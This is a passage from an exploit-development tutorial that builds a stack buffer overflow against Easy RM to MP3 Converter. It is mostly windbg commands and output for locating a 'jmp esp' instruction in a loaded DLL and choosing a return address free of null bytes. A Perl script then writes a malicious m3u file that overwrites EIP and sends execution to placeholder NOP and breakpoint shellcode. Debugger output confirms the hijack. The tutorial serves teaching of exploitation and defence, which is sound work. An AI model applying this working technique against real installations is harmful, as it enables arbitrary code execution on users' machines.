

We have managed to put our shellcode exactly where ESP points at (or, if you look at it from a different angle, ESP points directly at the beginning of our shellcode). If that would not have been the case, we would have looked to the contents of other register addresses and hope to find our buffer back. Anyways, in this particular example, we can use ESP.
The reasoning behind overwriting EIP with the address of ESP was that we want the application to jump to ESP and run the shellcode.
Jumping to ESP is a very common thing in windows applications. In fact, Windows applications use one or more dll’s, and these dll’s contains lots of code instructions. Furthermore, the addresses used by these dll’s are pretty static. So if we could find a dll that contains the instruction to jump to esp, and if we could overwrite EIP with the address of that instruction in that dll, then it should work, right ?
Let’s see. First of all, we need to figure out what the opcode for “jmp esp” is.
We can do this by Launching Easy RM to MP3, then opening windbg and hook windbg to the Easy RM to MP3 application. (Just connect it to the process, don’t do anything in Easy RM to MP3). This gives us the advantage that windbg will see all dll’s/modules that are loaded by the application. (It will become clear why I mentioned this)
Upon attaching the debugger to the process, the application will break.
In the windbg command line, at the bottom of the screen, enter a (assemble) and press return
Now enter jmp esp and press return

Press return again.
Now enter u (unassemble) followed by the address that was shown before entering jmp esp
0:014> u 7c90120e
ntdll!DbgBreakPoint:
7c90120e ffe4 jmp esp
7c901210 8bff mov edi,edi
ntdll!DbgUserBreakPoint:
7c901212 cc int 3
7c901213 c3 ret
7c901214 8bff mov edi,edi
7c901216 8b442404 mov eax,dword ptr [esp+4]
7c90121a cc int 3
7c90121b c20400 ret 4
Next to 7c90120e, you can see ffe4. This is the opcode for jmp esp
Now we need to find this opcode in one of the loaded dll’s.
Look at the top of the windbg window, and look for lines that indicate dll’s that belong to the Easy RM to MP3 application :
Microsoft (R) Windows Debugger Version 6.11.0001.404 X86
Copyright (c) Microsoft Corporation. All rights reserved.
*** wait with pending attach
Symbol search path is: *** Invalid ***
****************************************************************************
* Symbol loading may be unreliable without a symbol search path. *
* Use .symfix to have the debugger choose a symbol path. *
* After setting your symbol path, use .reload to refresh symbol locations. *
****************************************************************************
Executable search path is:
ModLoad: 00400000 004be000 C:\Program Files\Easy RM to MP3 Converter\RM2MP3Converter.exe
ModLoad: 7c900000 7c9b2000 C:\WINDOWS\system32\ntdll.dll
ModLoad: 7c800000 7c8f6000 C:\WINDOWS\system32\kernel32.dll
ModLoad: 78050000 78120000 C:\WINDOWS\system32\WININET.dll
ModLoad: 77c10000 77c68000 C:\WINDOWS\system32\msvcrt.dll
ModLoad: 77f60000 77fd6000 C:\WINDOWS\system32\SHLWAPI.dll
ModLoad: 77dd0000 77e6b000 C:\WINDOWS\system32\ADVAPI32.dll
ModLoad: 77e70000 77f02000 C:\WINDOWS\system32\RPCRT4.dll
ModLoad: 77fe0000 77ff1000 C:\WINDOWS\system32\Secur32.dll
ModLoad: 77f10000 77f59000 C:\WINDOWS\system32\GDI32.dll
ModLoad: 7e410000 7e4a1000 C:\WINDOWS\system32\USER32.dll
ModLoad: 00330000 00339000 C:\WINDOWS\system32\Normaliz.dll
ModLoad: 78000000 78045000 C:\WINDOWS\system32\iertutil.dll
ModLoad: 77c00000 77c08000 C:\WINDOWS\system32\VERSION.dll
ModLoad: 73dd0000 73ece000 C:\WINDOWS\system32\MFC42.DLL
ModLoad: 763b0000 763f9000 C:\WINDOWS\system32\comdlg32.dll
ModLoad: 5d090000 5d12a000 C:\WINDOWS\system32\COMCTL32.dll
ModLoad: 7c9c0000 7d1d7000 C:\WINDOWS\system32\SHELL32.dll
ModLoad: 76080000 760e5000 C:\WINDOWS\system32\MSVCP60.dll
ModLoad: 76b40000 76b6d000 C:\WINDOWS\system32\WINMM.dll
ModLoad: 76390000 763ad000 C:\WINDOWS\system32\IMM32.DLL
ModLoad: 773d0000 774d3000 C:\WINDOWS\WinSxS\x86_Microsoft.Windows.Common-Controls_6595b64144ccf1df_6.0.2600.5512_x-ww_35d4ce83\comctl32.dll
ModLoad: 74720000 7476c000 C:\WINDOWS\system32\MSCTF.dll
ModLoad: 755c0000 755ee000 C:\WINDOWS\system32\msctfime.ime
ModLoad: 774e0000 7761d000 C:\WINDOWS\system32\ole32.dll
ModLoad: 10000000 10071000 C:\Program Files\Easy RM to MP3 Converter\MSRMfilter03.dll
ModLoad: 71ab0000 71ac7000 C:\WINDOWS\system32\WS2_32.dll
ModLoad: 71aa0000 71aa8000 C:\WINDOWS\system32\WS2HELP.dll
ModLoad: 00ce0000 00d7f000 C:\Program Files\Easy RM to MP3 Converter\MSRMfilter01.dll
ModLoad: 01a90000 01b01000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec00.dll
ModLoad: 00c80000 00c87000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec01.dll
ModLoad: 01b10000 01fdd000 C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll
ModLoad: 01fe0000 01ff1000 C:\WINDOWS\system32\MSVCIRT.dll
ModLoad: 77120000 771ab000 C:\WINDOWS\system32\OLEAUT32.dll
If we can find the opcode in one of these dll’s, then we have a good chance of making the exploit work reliably across windows platforms. If we need to use a dll that belongs to the OS, then we might find that the exploit does not work for other versions of the OS. So let’s search the area of one of the Easy RM to MP3 dll’s first.
We’ll look in the area of C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll. This dll is loaded between 01b10000 and 01fd000. Search this area for ff e4 :
0:014> s 01b10000 l 01fdd000 ff e4
01ccf23a ff e4 ff 8d 4e 10 c7 44-24 10 ff ff ff ff e8 f3 ....N..D$.......
01d0023f ff e4 fb 4d 1b a6 9c ff-ff 54 a2 ea 1a d9 9c ff ...M.....T......
01d1d3db ff e4 ca ce 01 20 05 93-19 09 00 00 00 00 d4 d1 ..... ..........
01d3b22a ff e4 07 07 f2 01 57 f2-5d 1c d3 e8 09 22 d5 d0 ......W.]...."..
01d3b72d ff e4 09 7d e4 ad 37 df-e7 cf 25 23 c9 a0 4a 26 ...}..7...%#..J&
01d3cd89 ff e4 03 35 f2 82 6f d1-0c 4a e4 19 30 f7 b7 bf ...5..o..J..0...
01d45c9e ff e4 5c 2e 95 bb 16 16-79 e7 8e 15 8d f6 f7 fb ..\.....y.......
01d503d9 ff e4 17 b7 e3 77 31 bc-b4 e7 68 89 bb 99 54 9d .....w1...h...T.
01d51400 ff e4 cc 38 25 d1 71 44-b4 a3 16 75 85 b9 d0 50 ...8%.qD...u...P
01d5736d ff e4 17 b7 e3 77 31 bc-b4 e7 68 89 bb 99 54 9d .....w1...h...T.
01d5ce34 ff e4 cc 38 25 d1 71 44-b4 a3 16 75 85 b9 d0 50 ...8%.qD...u...P
01d60159 ff e4 17 b7 e3 77 31 bc-b4 e7 68 89 bb 99 54 9d .....w1...h...T.
01d62ec0 ff e4 cc 38 25 d1 71 44-b4 a3 16 75 85 b9 d0 50 ...8%.qD...u...P
0221135b ff e4 49 20 02 e8 49 20-02 00 00 00 00 ff ff ff ..I ..I ........
0258ea53 ff e4 ec 58 02 00 00 00-00 00 00 00 00 08 02 a8 ...X............
Excellent. (I did not expect otherwise… jmp esp is a pretty common instruction). When selecting an address, it is important to look for null bytes. You should try to avoid using addresses with null bytes (especially if you need to use the buffer data that comes after the EIP overwrite. The null byte would become a string terminator and the rest of the buffer data will become unusable).
Another good area to search for opcodes is
“s 70000000 l fffffff ff e4” (which would typically give results from windows dll’s)
Note : there are other ways to get opcode addresses :
- findjmp (from Ryan Permeh) : compile findjmp.c and run with the following parameters :
- findjmp . Suppose you want to look for jumps to esp in kernel32.dll, run “findjmp kernel32.dll esp. On Vista SP2, you should get something like this :
- Findjmp, Eeye, I2S-LaB
- Findjmp2, Hat-Squad
- Scanning kernel32.dll for code useable with the esp register
- 0x773AF74B call esp
- Finished Scanning kernel32.dll for code useable with the esp register
- Found 1 usable addresses
- the metasploit opcode database
- memdump (see one of the next tutorial posts
- pvefindaddr, a plugin for Immunity Debugger. In fact, this one is highly recommended because it will automatically filter unreliable pointers.
Since we want to put our shellcode in ESP (which is placed in our payload string after overwriting EIP), the jmp esp address from the list must not have null bytes. If this address would have null bytes, we would overwrite EIP with an address that contains null bytes. Null byte acts as a string terminator, so everything that follows would be ignored. In some cases, it would be ok to have an address that starts with a null byte. If the address starts with a null byte, because of little endian, the null byte would be the last byte in the EIP register. And if you are not sending any payload after overwrite EIP (so if the shellcode is fed before overwriting EIP, and it is still reachable via a register), then this will work.
Anyways, we will use the payload after overwriting EIP to host our shellcode, so the address should not contain null bytes.
The first address will do : 0x01ccf23a
Verify that this address contains the jmp esp (so unassemble the instruction at 01ccf23a):
0:014> u 01ccf23a
MSRMCcodec02!CAudioOutWindows::WaveOutWndProc+0x8bfea:
01ccf23a ffe4 jmp esp
If we now overwrite EIP with 0x01ccf23a, a jmp esp will be executed. Esp contains our shellcode… so we should now have a working exploit. Let’s test with our “NOP & break” shellcode.
Close windbg.
Create a new m3u file using the script below :
my $file= "test1.m3u";
my $junk= "A" x 26094;
my $eip = pack('V',0x01ccf23a);
my $shellcode = "\x90" x 25;
$shellcode = $shellcode."\xcc"; #this will cause the application to break, simulating shellcode, but allowing you to further debug
$shellcode = $shellcode."\x90" x 25;
open($FILE,">$file");
print $FILE $junk.$eip.$shellcode;
close($FILE);
print "m3u File Created successfully\n";
21c.e54): Break instruction exception - code 80000003 (!!! second chance !!!)
eax=00000001 ebx=00104a58 ecx=7c91005d edx=00000040 esi=77c5fce0 edi=0000662c
eip=000ff745 esp=000ff730 ebp=003440c0 iopl=0 nv up ei pl nz na pe nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206
Missing image name, possible paged-out or corrupt data.
Missing image name, possible paged-out or corrupt data.
Missing image name, possible paged-out or corrupt data.
+0xff734:
000ff745 cc int 3
0:000> d esp
000ff730 90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90 ................
000ff740 90 90 90 90 90 cc 90 90-90 90 90 90 90 90 90 90 ................
000ff750 90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 00 ................
000ff760 41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41 AAAAAAAAAAAAAAAA
Run the application again, attach windbg, press "g" to continue to run, and open the new m3u file in the application.
The application now breaks at address 000ff745, which is the location of our first break. So the jmp esp worked fine (esp started at 000ff730, but it contains NOPs all the way up to 000ff744).
All we need to do now is put in our real shellcode and finalize the exploit.
Close windbg again.